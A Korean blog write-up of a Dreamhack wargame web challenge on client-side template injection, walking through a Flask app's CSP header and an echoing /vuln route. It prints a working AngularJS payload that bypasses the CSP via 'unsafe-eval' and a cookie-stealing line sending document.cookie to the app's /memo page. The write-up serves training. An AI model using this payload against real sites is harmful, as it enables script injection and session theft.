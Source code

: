 ```yaml
---
title: "드림핵 lv.2 - Client Side Template Injection"
date: 2025-03-24 00:00:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, template injection] 
description: 드림핵 Client Side Template Injection 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/437/](https://dreamhack.io/wargame/challenges/437/)
# 문제 설명
Exercise: Client Side Template Injection에서 실습하는 문제입니다.

---
# 문제 풀이
## 웹사이트 분석
이번에도 웹사이트 자체는 지난번 풀었던 [XSS Filtering Bypass](https://hoonsooni.com/posts/dreamhack_xss_filtering_bypass/), [XSS Filtering Bypass Advanced](https://hoonsooni.com/posts/dreamhack_xss_filtering_bypass_advanced/), [CSP Bypass](https://hoonsooni.com/posts/dreamhack_csp_bypass/), [CSP Bypass Advanced](https://hoonsooni.com/posts/dreamhack_csp_bypass_advanced/)에서 다뤄진 것과 거의 비슷하여 딱히 분석할 것이 없다.
## 코드 분석
```python
@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'nonce-{nonce}' 'unsafe-eval' https://ajax.googleapis.com; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response
```

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param
```
이번에 약간씩 달라진 부분만 가져와 보았다. <br />
우선 해당 웹 서비스에는 CSP 정책 설정이 걸려있어서 아무 스크립트나 실행시킬 수 없다. <br />

그리고 가장 마지막으로 풀이했던 CSP Bypass Advanced 문제와는 다르게 /vuln 페이지가 또 다시 유저로부터 받은 값을 아무런 과정도 거치지 않고 그대로 화면에 출력하는 방식으로 변화했다.<br />
참고로 이 전에는 param 값을 완전 문자열로 변환하여 코드의 "결과"가 아닌 코드 자체의 "문자열"을 출력했다.<br />
## 최종 풀이
### 취약점 분석
이 전과는 달라진 CSP 부분이 뭔가 미심쩍다.<br />
괜히 `unsafe-eval`이 있는 것이 아닌 것 같고 해당 URL의 시작도 `https://ajax.googleapis.com`인 것을 보면 아래 코드처럼 angular를 사용하는 웹 페이지에서 사용하는 URL과 호스트가 동일하다.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script>`
```

Angular를 사용하면 `html`이나 `body` 태그에 `ng-app` 속성을 추가해서 앵귤러의 탬플릿을 사용할 수 있게 된다. 여기서 **Template Injection** 취약점이 발생한다.
### 익스플로잇
아무튼 우리는 /vuln 페이지를 이용해야한다.<br />

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script><html ng-app>{{ constructor.constructor("alert(1)")() }}</html>
```
스크립트 하나를 테스트해보자.<br />
이런식으로 angular 스크립트와 ng-app 속성을 가진 html 태그를 함께 보내주고 탬플릿 내부에 생성자를 사용하여 자바스크립트 코드를 실행하는 방식이다.<br />

해당 코드를 /vuln?param 값으로 전달해주면 alert 창이 올바르게 뜨는 것을 확인할 수 있다.<br />

마지막으로 생성자 인자로 `location.href='/memo?memo='+document.cookie`를 입력하고 /flag 페이지에서 스크립트 전체를 입력하여 보내면 /memo 페이지에서 플래그를 확인할 수 있다.
# 배운 것
CSP의 `unsafe-eval` 값에 대해 공부할 수 있었고 angular의 기본 동작 방식에 대해서 얕게나마 알게됐다.